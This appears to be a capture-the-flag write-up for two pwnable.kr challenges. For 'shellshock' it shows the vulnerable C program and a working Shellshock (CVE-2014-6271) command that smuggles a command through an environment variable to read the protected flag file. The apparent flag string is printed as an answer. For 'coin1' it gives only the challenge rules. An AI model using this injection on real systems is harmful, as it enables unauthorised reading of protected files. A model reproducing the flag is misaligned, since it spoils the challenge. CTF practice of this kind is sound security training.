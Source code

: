 ## [](#header-2)shellshock

> Mommy, there was a shocking news about bash.
> 
> I bet you already know, but lets just make it sure :)
> 
> ssh shellshock@pwnable.kr -p2222 (pw:guest)

**shellshock.c**

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

```
env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago…!!
```

## [](#header-2)coin1

> Mommy, I wanna play a game!
> 
> (if your network response time is too slow, try nc 0 9007 inside pwnable.kr server)
> 
> Running at : nc pwnable.kr 9007

```
        ---------------------------------------------------
        -              Shall we play a game?              -
        ---------------------------------------------------

        You have given some gold coins in your hand
        however, there is one counterfeit coin among them
        counterfeit coin looks exactly same as real coin
        however, its weight is different from real one
        real coin weighs 10, counterfeit coin weighes 9
        help me to find the counterfeit coin with a scale
        if you find 100 counterfeit coins, you will get reward :)
        FYI, you have 60 seconds.

        - How to play - 
        1. you get a number of coins (N) and number of chances (C)
        2. then you specify a set of index numbers of coins to be weighed
        3. you get the weight information
        4. 2~3 repeats C time, then you give the answer

        - Example -
        [Server] N=4 C=2        # find counterfeit among 4 coins with 2 trial
        [Client] 0 1            # weigh first and second coin
        [Server] 20                     # scale result : 20
        [Client] 3                      # weigh fourth coin
        [Server] 10                     # scale result : 10
        [Client] 2                      # counterfeit coin is third!
        [Server] Correct!

        - Ready? starting in 3 sec... -
```
